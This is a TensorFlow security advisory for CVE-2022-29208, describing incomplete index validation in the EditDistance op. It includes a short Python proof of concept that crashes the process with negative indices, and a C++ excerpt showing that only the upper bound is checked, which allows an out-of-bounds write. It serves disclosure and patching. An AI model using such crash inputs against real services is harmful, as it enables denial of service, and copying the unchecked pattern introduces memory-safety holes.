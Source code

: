 ## TFSA-2022-077: Segfault and OOB write due to incomplete validation in `EditDistance`

### CVE Number
CVE-2022-29208

### Impact
The implementation of [`tf.raw_ops.EditDistance`]() has incomplete validation. Users can pass negative values to cause a segmentation fault based denial of service:

```python
import tensorflow as tf

hypothesis_indices = tf.constant(-1250999896764, shape=[3, 3], dtype=tf.int64)
hypothesis_values = tf.constant(0, shape=[3], dtype=tf.int64)
hypothesis_shape = tf.constant(0, shape=[3], dtype=tf.int64)

truth_indices = tf.constant(-1250999896764, shape=[3, 3], dtype=tf.int64)
truth_values = tf.constant(2, shape=[3], dtype=tf.int64)
truth_shape = tf.constant(2, shape=[3], dtype=tf.int64)

tf.raw_ops.EditDistance(
  hypothesis_indices=hypothesis_indices,
  hypothesis_values=hypothesis_values,
  hypothesis_shape=hypothesis_shape,
  truth_indices=truth_indices,
  truth_values=truth_values,
  truth_shape=truth_shape)
```

In multiple places throughout the code, we are computing an index for a write operation:

```cc
if (g_truth == g_hypothesis) {
  auto loc = std::inner_product(g_truth.begin(), g_truth.end(),
                                output_strides.begin(), int64_t{0});
  OP_REQUIRES(
      ctx, loc < output_elements,
      errors::Internal("Got an inner product ", loc,
                       " which would require in writing to outside of "
                       "the buffer for the output tensor (max elements ",
                       output_elements, ")"));
  output_t(loc) =
      gtl::LevenshteinDistance<T>(truth_seq, hypothesis_seq, cmp);
  // ...
}
```

However, the existing validation only checks against the upper bound of the array. Hence, it is possible to write before the array by massaging the input to generate negative values for `loc`.

### Patches
We have patched the issue in GitHub commit [30721cf564cb029d34535446d6a5a6357bebc8e7](https://github.com/tensorflow/tensorflow/commit/30721cf564cb029d34535446d6a5a6357bebc8e7).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
